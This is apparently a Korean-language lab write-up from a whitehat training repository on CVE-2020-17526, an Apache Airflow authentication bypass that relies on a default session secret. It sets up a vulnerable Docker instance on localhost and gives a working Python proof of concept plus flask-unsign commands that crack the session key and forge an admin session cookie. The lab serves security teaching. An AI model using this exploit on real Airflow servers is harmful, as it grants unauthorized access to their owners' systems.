 ## CVE-2020-17526


Apache Airflow는 오픈 소스 분산 작업 예약 프레임워크입니다. 기본적으로 인증은 필요하지 않지만 관리에서는 webserver.authenticate=True를 지정하여 활성화할 수 있습니다.

1.10.13 이전 버전에서 Apache Airflow는 기본 세션 secert 키를 사용하므로 인증이 활성화되면 임의의 사용자로 로그인 가능합니다.

References:

-   https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
-   https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## Vulnerability Environment - 취약환경

다음 명령을 실행하여 airflow 1.10.10 서버를 시작합니다.

```
docker compose run airflow-init
docker compose up -d
```

위 명령어 후에 서버가 실행 되고, http://localhost:8080으로 접속하면 Apache Airflow서비스의 로그인 페이지에 접근 할 수 있습니다.

## Exploit

0\. 3번까지의 내용을 생략하고 poc.py를 실행시킬 수 있습니다.
파이썬 모듈 설치
```
pip install flask-unsign
pip install flask-unsign[wordlist]
```
poc.py
```
import requests
import re
import subprocess

url = "http://localhost:8080/admin/airflow/login"
response = requests.get(url)
set_cookie_header = response.headers.get("Set-Cookie")
session_value = re.search(r'session=(.*?);', set_cookie_header)

if session_value:
    session_value = session_value.group(1)
    print("Session 값:", session_value)
else:
    print("Session 값이 없습니다.")

command = "flask-unsign -u -c " + session_value
result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

if result.returncode == 0:
    print("secret")
    print(result.stdout)
else:
    print("명령 실행 실패")
    print(result.stderr)

crack_session = result.stdout
crack_session = crack_session.replace('\'','').replace('\n','')
command2 = "flask-unsign -s --secret "+crack_session+" -c \"{'user_id': '1', '_fresh': False, '_permanent': True}\""
result2 = subprocess.run(command2, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

if result2.returncode == 0:
    print("final session")
    print(result2.stdout)
else:
    print("명령 실행 실패")
    print(result2.stderr)
```

1\. 서비스에 접근해서 Cookie를 받습니다.

```
curl -v http://localhost:8080/admin/airflow/login
```

curl(↑) 또는 파이썬(↓)을 이용합니다

```
import requests
import re

url = "http://localhost:8080/admin/airflow/login"
response = requests.get(url)
set_cookie_header = response.headers.get("Set-Cookie")
session_value = re.search(r'session=(.*?);', set_cookie_header)

if session_value:
    session_value = session_value.group(1)
    print("Session 값:", session_value)
else:
    print("Session 값이 없습니다.")
```

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/2f29d1c7-cc14-4b15-a44b-92f42a43f93a)


2\. flask-unsign을 이용해 session key를 크랙합니다.

```
flask-unsign -u -c [session from Cookie]
```

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/776d0d36-8260-443f-8301-7fe92807acc7)


3\. user\_id가 1인 유저에 접근하기 위해 session 생성

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/9e00264f-3b55-4454-b81f-60d478a4ef5c)


4\. 쿠키에 삽입후 로그인 확인

![image](https://github.com/breakpack/whitehat-school-vulhub/assets/108794308/a42ce5f9-9f6b-453a-abb8-0cb970f42828)
